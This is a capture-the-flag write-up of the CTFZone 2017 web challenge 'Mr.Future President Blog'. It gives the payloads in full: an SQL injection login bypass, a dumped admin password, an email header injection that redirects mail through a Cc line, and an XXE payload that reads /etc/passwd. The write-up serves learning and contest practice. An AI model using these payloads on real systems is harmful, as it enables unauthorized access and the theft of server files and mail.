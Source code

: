 ```yaml
---
layout: post
title: Mr.Future President Blog
category: CTFZone 2017
---
```


So first it was really amazing task that make me work hard and try again and again to get something<br />
Our team was working on this task and its a good way to get the job done when you have good web guys<br />
We didnt get the last part which is just 5% of the task but we did well even we dont get the flag before the ctf end<br />
<br />
Its good too to share what we get and why not to share last part we miss <br />

First it was a web login page <br />

![login](https://user-images.githubusercontent.com/7364615/28275160-5715e578-6b13-11e7-8be3-746bb7dcc705.PNG)

OK here where the challenge start<br />

As always check sql injection is the good way to fast work :D <br />
and as usual it works :D <br />

simple login bypass  ' or 1=1 -- in username do the job <br />

then just start dump database and get some data which was not so interesting for us , no flag in data base 

current DB : task200 <br />
Table : users <br />
user : admin <br />
password : verystrongpassword <br />

and also table posts with static data

anyway lets go far 

when we login we get this page 

![image](https://user-images.githubusercontent.com/7364615/28275423-1083f16c-6b14-11e7-9240-56dd1a0a9b34.png)

here me and my team start think about phpmailer bug , but not work after some test 

then after some check we get that its email header injection that make us able to redirect the email to our account :D 
look amazing now here :D 

this is our payload used : 
POST : subject=Report+from+16-07-2017+12-18%0d%0aCc:email@gmail.com%0d%0a&encoding=UTF-8

![image](https://user-images.githubusercontent.com/7364615/28275535-6a91760c-6b14-11e7-80e9-396f88656232.png)

it was xml file 

![image](https://user-images.githubusercontent.com/7364615/28275635-c5548e44-6b14-11e7-82cd-7fd7aa3e97ca.png)

here look XML External Entity (XXE) 

so all we need to do is to make xxe in subject to get email with some data from the server

it was really bad for us , we make all test but we miss the last part to make this work 

the last payload to get flag is to read /etc/passwd file from the server 

payload : subject=-->%26xxe;test123%0d%0aCc:+email@gmail.com&encoding=UTF-8"%3f><!DOCTYPE+foo+[<!ELEMENT+foo+ANY+><!ENTITY+xxe+SYSTEM+"file%3a///etc/passwd"+>]><report><about><subject><!--

![image](https://user-images.githubusercontent.com/7364615/28275820-5f3df590-6b15-11e7-9a62-8b544b79b853.png)

and the flag was : ctfzone{c5b8865cc6d98898f391c911f4c371a3}
